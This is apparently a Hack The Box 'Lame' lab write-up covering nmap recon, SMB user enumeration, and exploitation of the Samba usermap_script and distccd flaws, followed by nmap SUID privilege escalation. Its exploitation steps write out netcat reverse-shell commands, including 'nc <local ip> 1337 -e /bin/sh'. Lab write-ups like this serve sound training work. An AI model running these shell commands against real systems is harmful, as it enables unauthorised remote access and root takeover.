 # HTB Lame Writeup

<code>#CVE-2004-2687</code> <code>#CVE-2007-2447</code> <code>#CVE-2011-2523</code> <code>#vsFTPd</code> <code>#smbd</code> <code>#nmap</code>

#### Reconnaissance

`nmap -sC -sV -p- -Pn 10.10.10.3`

```
Nmap scan report for 10.10.10.3
Host is up (0.079s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-11-07T23:38:51-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h26m42s, deviation: 3h32m10s, median: -3m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.67 seconds
```

#### Enumeration

###### Port 22 - File Transfer Protocol
- Anonymous login using:
	- ftp : ftp
	- anonymous : anonymous
	- anonymous :
- vsFTPd 2.3.4
	- CVE-2011-2523: Backdoor command execution vulnerability
	- opens shell on port 6200/tcp
	- Exploit was not successful

##### Port 139, 445 - Server Message Block
- Null Session
	 `rpcclient 10.10.10.3 -U '' -N`

```
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
rpcclient $> enumdomgroups
rpcclient $> enumdomgroup
command not found: enumdomgroup
rpcclient $> enumdomusers
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
```

- Samba smbd 3.0.20
	- CVE-2007-2447 - Arbitrary Code Execution
		- [Exploit Github Repository](https://github.com/amriunix/CVE-2007-2447)

##### Port 3632 - DistCC Daemon
- Distcc is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed.
- CVE-2004-2687
	- [Exploit Github Repository](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

#### Exploitation

##### Exploitation #1: CVE-2007-2447
`kali@kali:/$ nc -lvnp 3333`

`kali@kali:/$ ./usermap_script.py 10.10.10.3 139 10.10.14.13 3333`

<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.36.35 PM.png" width=50% height=50%>
<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.37.01 PM.png" width=50% height=50%>

##### Exploitation #2: CVE-2004-2687

`kali@kali:/$ nc -lvnp 1337`

`kali@kali:/$ ./disccd_exploit.py -t <victim ip> -p 3632 -c "nc <local ip> 1337 -e /bin/sh"`

<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.50.26 PM.png" width=50% height=50%>
<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 10.51.21 PM.png" width=50% height=50%>

##### Privilege Escalation w/ Exploitation #2

Important SUID files:
`-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap`
- nmap version 4.53
- The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands with root privileges due to owner being root
- [GTFOBins]( https://gtfobins.github.io/gtfobins/nmap/)

<img src="https://github.com/ChrisThePhotographer/test/blob/main/assets/Screen Shot 2022-12-19 at 11.20.34 PM.png" width=50% height=50%>




